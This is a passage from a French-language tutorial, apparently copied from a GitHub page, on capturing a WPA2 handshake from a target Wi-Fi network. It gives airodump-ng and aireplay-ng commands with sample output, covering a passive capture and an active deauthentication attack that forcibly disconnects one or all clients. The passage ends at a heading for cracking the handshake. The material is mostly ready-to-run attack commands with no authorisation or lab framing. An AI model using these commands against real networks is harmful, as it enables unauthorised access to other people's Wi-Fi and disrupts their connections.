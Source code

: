 ### **Capture du handshake WPA2**

#### **Méthode passive (attendre connexion)**
```bash
# ÉTAPE 1 : Capturer trafic réseau cible
sudo airodump-ng -c 11 --bssid 11:22:33:44:55:66 -w handshake_capture wlan1mon

# ATTENDRE qu'un appareil se connecte naturellement
# Visible dans STATION quand nouvelle connexion

# ÉTAPE 2 : Vérifier handshake capturé
aircrack-ng handshake_capture-01.cap

# SORTIE SI HANDSHAKE COMPLET :
Reading packets, please wait...
Opening handshake_capture-01.cap
Read 15642 packets.

#  BSSID              ESSID                     Encryption

1  11:22:33:44:55:66  BBOX-12345678            WPA (1 handshake)

# "1 handshake" = SUCCÈS ! Handshake complet capturé
```

#### **Méthode active (déauthentification)**
```bash
# Forcer déconnexion appareil pour provoquer reconnexion

# ÉTAPE 1 : Identifier client connecté
sudo airodump-ng -c 11 --bssid 11:22:33:44:55:66 wlan1mon

# Noter adresse MAC dans colonne STATION : 99:AA:BB:CC:DD:EE

# ÉTAPE 2 : Commencer capture handshake
sudo airodump-ng -c 11 --bssid 11:22:33:44:55:66 -w forced_handshake wlan1mon

# ÉTAPE 3 : Dans autre terminal, déauthentifier client
sudo aireplay-ng -0 5 -a 11:22:33:44:55:66 -c 99:AA:BB:CC:DD:EE wlan1mon

# PARAMÈTRES DÉAUTH :
# -0 5 = Envoi 5 paquets déauthentification
# -a = BSSID point d'accès
# -c = Adresse MAC client à déconnecter
# Si pas -c = déconnecte TOUS les clients

# DANS AIRODUMP, voir message : "WPA handshake: 11:22:33:44:55:66"
```

### **Cracking du handshake**
